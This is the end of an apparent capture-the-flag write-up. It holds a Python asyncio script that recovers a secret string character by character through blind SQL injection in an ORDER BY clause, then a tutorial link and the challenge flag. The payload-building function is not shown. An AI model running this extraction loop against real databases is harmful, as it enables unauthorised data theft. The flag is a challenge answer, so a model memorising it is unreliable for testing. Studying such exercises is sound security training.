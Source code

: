```python
        tasks = []
        for char in string.ascii_letters+string.digits + "{}_":
            tasks.append(send_request(char, known))

        # Gather all the responses concurrently
        responses = await asyncio.gather(*tasks)

        # Process the responses to find the correct character
        for char, response_text in responses:
            print(response_text)
            if "No data found." in response_text:
                known += char
                print(f"Found character: {char}, known string so far: {known}")
                break

# Run the async process
asyncio.run(sql_injection())

# https://www.securityidiots.com/Web-Pentest/SQL-Injection/group-by-and-order-by-sql-injection.html

```

![](./imgs/image_dWT8TH1W.png)

## Flag

CTF{ord3ring\_sql\_inj3ction\_links}
